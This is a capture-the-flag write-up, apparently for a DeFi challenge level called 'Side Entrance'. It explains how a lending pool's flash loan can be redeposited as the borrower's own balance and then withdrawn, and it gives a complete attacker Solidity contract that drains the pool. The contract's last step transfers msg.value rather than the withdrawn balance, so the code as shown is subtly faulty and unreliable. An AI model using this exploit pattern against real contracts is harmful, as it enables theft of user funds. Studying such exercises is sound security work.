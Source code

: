 # Intro

A surprisingly simple lending pool allows anyone to deposit ETH, and withdraw it at any point in time.

This very simple lending pool has 1000 ETH in balance already, and is offering free flash loans using the deposited ETH to promote their system.

You must take all ETH from the lending pool

# Attack explanation

Our objective is to take the ETH from the lending pool. If we dig the contract, we can find the next functions:

```
function deposit() external payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() external {
        uint256 amountToWithdraw = balances[msg.sender];
        balances[msg.sender] = 0;
        payable(msg.sender).sendValue(amountToWithdraw);
    }

    function flashLoan(uint256 amount) external {
        uint256 balanceBefore = address(this).balance;
        require(balanceBefore >= amount, "Not enough ETH in balance");

        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

        require(address(this).balance >= balanceBefore, "Flash loan hasn't been paid back");
    }
```

In order to beat the level, we need to execute a flashLoan. With that loan, we will deposit the funds inside the loan sc as if they were ours. Then, the flashLoan function will check that the loan has been paid back with address(this).balance. As we redeposited the loan, this control will pass. Then, we will be able to withdraw the deposited funds without problem.

# Attack function

We can create the following attacker contract to make the attack:

```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

/**
 * @title AttackerContractSideEntrance
 * @author Juan Farber (github.com/Farber98)
 */

interface IFlashLoanEtherReceiver {
    function execute() external payable;
}

contract AttackerContractSideEntrance {
    address public immutable sideEntranceLenderPool;

    constructor(address _sideEntranceLenderPool) {
        sideEntranceLenderPool = _sideEntranceLenderPool;
    }

    // To receive the loan.
    fallback() external payable {}

    function attack() external payable {
        // Calls the loan.
        sideEntranceLenderPool.call(
            abi.encodeWithSignature(
                "flashLoan(uint256)",
                address(sideEntranceLenderPool).balance
            )
        );
        // After the loan has been ""repayed"", we will withdraw our funds.
        sideEntranceLenderPool.call(abi.encodeWithSignature("withdraw()"));
        // Transfer funds from this sc to the attacker.
        payable(msg.sender).transfer(msg.value);
    }

    function execute() external payable {
        // With the loan, deposit the funds in our name.
        sideEntranceLenderPool.call{value: msg.value}(
            abi.encodeWithSignature("deposit()")
        );
    }
}
```
